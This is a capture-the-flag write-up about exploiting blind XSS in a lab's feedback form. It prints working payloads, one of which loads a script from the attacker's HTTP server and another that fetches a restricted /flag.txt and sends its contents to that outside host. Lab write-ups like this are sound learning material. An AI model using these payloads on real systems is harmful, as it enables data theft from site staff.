






Firstly, I navigated through and found two sections: HOME and FEEDBACK. When I clicked HOME, it didn't do anything and felt like a static page. When I went to the FEEDBACK page, I found that I could send feedback. So, first, I tried sending some feedback.

Before beginning the room, the challenge said to access `http://10.10.175.14:8080/flag.txt`. So, I visited that path, but I was greeted with a 401 Unauthorized error.

So, I came back to the FEEDBACK section to look through what I could do!

I tried HTML tags first, but I didn't get anything on the page. Then I noticed the message we got after sending feedback: `It will be evaluated shortly by our staff.` Suddenly, I thought, what if I send malicious payload throught it . Their will be high chances  someone with higher privileges reviewed the malicious payload I sent? The answer would be that it would get executed, right? So, I thought, why not try Blind XSS? I went and looked for Blind XSS payloads on GitHub and found one. I crafted it specifically for my needs.

Before starting, I set up a Python HTTP server, which hosted on the default port 8000 using the command:


```
python -m http.server
```

Before trying the payload, I checked my IP using `ipconfig`.

Then, I tried some payloads using my Python HTTP server, and I got a hit. The command I used was:

```
'"><script src=http://10.17.32.192:8000/script-tag></script>
```

We successfully got a request hit! So now, I tried figuring out how I could read the file. After some tries, I crafted a specific payload, and it looked like this:

```
"><script>
fetch('/flag.txt') // Access the restricted file using a relative path
  .then(response => response.text())
  .then(data => {
    fetch('http://10.17.32.192:8000/?flag=' + encodeURIComponent(data));
  });
</script>
```

And I got the flag!

But still, there was some work to do before submitting the flag. The flag was URL-encoded! I quickly searched for `URL DECODER` and found the site: `https://meyerweb.com/eric/tools/dencoder/`. Using that, I decoded the flag. The final flag looked like this:

